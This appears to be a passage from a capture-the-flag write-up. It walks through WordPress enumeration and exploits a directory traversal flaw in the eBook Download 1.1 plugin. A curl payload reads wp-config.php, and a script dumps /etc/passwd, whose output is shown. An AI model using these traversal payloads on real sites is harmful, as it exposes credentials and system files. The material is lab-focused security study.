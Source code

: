 * We can found a login at *wp-login.php*

* *wp-content* Folder seems to return nothing, but *wp-content/uploads/* return us all the files.

Since we can't see all the stuff that *wp-content* show us we will search for the common directories inside it.
These are:
1. themes
2. plugins
3. uploads
4. index.php

As we try some paths we discover some directories we found that  *wp-content/plugins* exist and we found one plugin called "ebook-download".

We can search for Wordpress eBook plugin vulnerabilities.
```bash
searchsploit "wordpress ebook"
```
Output:
```
WordPress Plugin eBook Download 1.1 - Directory Traversal
.
.
.
```
We had found that the 1.1 ebook version is vulnerable to a Directory Traversal attack.

At */wp-content/plugins/ebook-download/readme.txt* we see the line "Stable tag: 1.1". We can assume that our plugin is running 1.1 version.

We mirror the exploit:
```bash
searchsploit -m 39575
```

If we inspect the file we can find the PoC:
```
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

If we try to run with curl the PoC:
```bash
curl http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
We got a response!
Now we got a Directory Traversal explotable vulnerability.


### Automatizing Directory Transversal

We created a [bash script][Bash script dt] to dowload and show all the files we want.
We can list users:
```bash
./dt /etc/passwd
```
Output:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```

[screen man]: https://linux.die.net/man/1/screen
[Bash script dt]: http://google.es
[Bash script list]: http://google.es
[HackTricks guide]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
[HackTricks GdbServer]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver
[wordpress5.8.1vuln]: https://wpscan.com/wordpress/581
[port1337]: https://www.speedguide.net/port.php?port=1337